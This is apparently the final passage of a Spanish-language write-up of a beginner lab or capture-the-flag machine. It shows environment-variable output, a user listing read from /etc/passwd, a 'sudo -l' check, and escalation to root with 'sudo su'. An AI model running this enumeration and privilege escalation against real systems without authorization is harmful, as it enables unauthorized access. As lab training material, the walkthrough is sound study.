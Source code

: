 ```
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=00:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.avif=01;35:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.webp=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:*~=00;90:*#=00;90:*.bak=00;90:*.crdownload=00;90:*.dpkg-dist=00;90:*.dpkg-new=00;90:*.dpkg-old=00;90:*.dpkg-tmp=00;90:*.old=00;90:*.orig=00;90:*.part=00;90:*.rej=00;90:*.rpmnew=00;90:*.rpmorig=00;90:*.rpmsave=00;90:*.swp=00;90:*.tmp=00;90:*.ucf-dist=00;90:*.ucf-new=00;90:*.ucf-old=00;90:
SSH_CONNECTION=172.17.0.1 42852 172.17.0.2 22
TERM=xterm-256color
USER=admin
SHLVL=1
SSH_CLIENT=172.17.0.1 42852 22
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
SSH_TTY=/dev/pts/0
_=/usr/bin/printenv
```
nada relevante, ojo que me he llegado a ver aquí contraseás en texto claro
Miramos usuarios :
```bash
cat /etc/passwd | grep sh$
```
```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
admin:x:1003:1003:,,,:/home/admin:/bin/bash
sjd:x:1001:1001:,,,:/home/sjd:/bin/bash
```
ahora toca mirar si tenemos algún privilegio sudo:
```bash
sudo -l
```
```
[sudo] password for admin: 
Matching Defaults entries for admin on 8b209e5d837a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User admin may run the following commands on 8b209e5d837a:
    (ALL) ALL
```
.....puedo ejecutar como cualquier usuario....lo que quiera?
```
admin@8b209e5d837a:~$ sudo su 
root@8b209e5d837a:/home/admin# 
```

y hasta aquí esta máquina básica pero entretenida



